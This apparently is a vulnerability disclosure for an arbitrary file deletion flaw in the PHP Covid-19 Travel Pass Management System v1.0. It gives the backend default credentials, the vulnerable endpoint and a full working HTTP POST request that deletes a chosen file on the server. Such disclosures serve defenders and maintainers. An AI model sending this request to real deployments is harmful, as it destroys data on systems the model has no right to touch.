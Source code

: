 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/classes/Master.php?f=delete_img

Vulnerability location: /ctpms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shel.php file in the root directory

```sql
POST /ctpms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

path=C%3A%5Cxampp%5Chtdocs%5Cctpms%5Cshell.php
```
The file path needs to be encoded by url
![image](https://user-images.githubusercontent.com/54017627/167078870-f20ffa4d-f8d1-4b1c-a050-6504f6684023.png)

At present, the shell.php file is still in the root directory of the website, when we send a request to delete the shell.php file

![image](https://user-images.githubusercontent.com/54017627/167078929-8c72b11e-52bf-485b-8901-66b309b71c40.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/167078977-11c59f39-222c-43cc-857d-0f5ea5df9006.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/167079021-b3064c1d-b820-4a1a-a222-d1b3c73b0378.png)
